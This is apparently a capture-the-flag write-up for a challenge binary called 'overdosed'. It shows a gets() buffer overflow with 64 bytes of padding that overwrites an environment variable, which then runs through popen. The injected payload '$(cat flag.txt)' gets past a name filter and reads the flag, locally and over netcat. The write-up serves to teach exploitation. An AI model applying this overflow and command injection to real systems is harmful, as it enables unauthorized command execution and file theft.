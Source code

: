 ```yaml
---
layout: post
title: TMHCxHTB overdosed writeup
---
```


# Summary
This challenge requires you to do a buffer overflow and a variable injection.

# Information gathering
First we run the executable like you normally would.
```
$ ./overdosed 
[ERROR] Could not find flag.txt
```
Let's create a `flag.txt` file and try again:
```
$ ./overdosed 
Could you tell me about yourself?
abc
Hey, I am from TMHC. Could you tell me your name?
Name: test
Hello test
```
Now let's try running it with `ltrace`:
```
$ ltrace ./overdosed
puts("Could you tell me about yourself"...Could you tell me about yourself?
)             = 34
fflush(0x7f4697049760)                                  = 0
gets(0x7fff6dc074b0, 0x7f469704a8c0, 0, 2880abc
)           = 0x7fff6dc074b0
strlen("QHpix")                                         = 5
sprintf("/bin/echo "QHpix"", "/bin/echo "%s"", "QHpix") = 17
popen("/bin/echo "QHpix"", "r")                         = 0x559560c5fa80
fgets("QHpix\n", 30, 0x559560c5fa80)                    = 0x7fff6dc07490
--- SIGCHLD (Child exited) ---
setenv("name", "QHpix\n", 1)                            = 0
puts("Hey, I am from TMHC. Could you t"...Hey, I am from TMHC. Could you tell me your name?
)             = 50
printf("Name: ")                                        = 6
fflush(0x7f4697049760Name: )                                  = 0
read(1test
, "test\n", 64)                                   = 5
strlen("test\n")                                        = 5
sprintf("/bin/echo Hello "test\n"", "/bin/echo Hello "%s"", "test\n") = 23
system("/bin/echo Hello "test\n""Hello test

 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                  = 0
+++ exited (status 0) +++
```
It seems our `test` gets printed with `echo`.

##  Testing characters
Let's try to use `$(cat flag.txt)` to see if we can read it:
```
$ ./overdosed 
Could you tell me about yourself?
abc
Hey, I am from TMHC. Could you tell me your name?
Name: $(cat flag.txt)
Illegal name!
```
Maybe "`" will work:
```
$ ./overdosed 
Could you tell me about yourself?
abc
Hey, I am from TMHC. Could you tell me your name?
Name: `cat flag.txt` 
Illegal name!

```
That did not work either.

We see that there is an environment variable called `name` that is being set to `QHpix`.
Maybe we can use that:
```
$ ./overdosed 
Could you tell me about yourself?
abc
Hey, I am from TMHC. Could you tell me your name?
Name: ${name}
Hello QHpix
```
That seemed to work!

# Overflow
Now we need to find a way to change `QHpix` to something we want.
Let's try to set it to `$(cat flag.txt)`
First we have to find the padding. We can do this using `pwntools` pattern:
```python
>>> from pwn import *
>>> cyclic(80)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
```
Let's use that pattern:
```
$ ./overdosed 
Could you tell me about yourself?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
Hey, I am from TMHC. Could you tell me your name?
Name: ${name}
Hello qaaaraaasaaataaa
```
Great, we overflowed!
Now let's get the padding needed:
```python
>>> len(fit({'qaaaraaasaaataaa':''}))
64
```
So the padding is 64.
We can try the following payload:
```python
>>> 'A'*64 + '$(cat flag.txt)'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(cat flag.txt)'
```
```
$ ./overdosed
Could you tell me about yourself?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(cat flag.txt)
Hey, I am from TMHC. Could you tell me your name?
Name: ${name}
Hello CTF{test}
```
Cool!
Let's see if it works remotely:
```
$ nc 127.0.0.1 1337
Could you tell me about yourself?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$(cat flag.txt)
Hey, I am from TMHC. Could you tell me your name?
Name: ${name}
Hello TMHC{<flag>}
```
It worked!
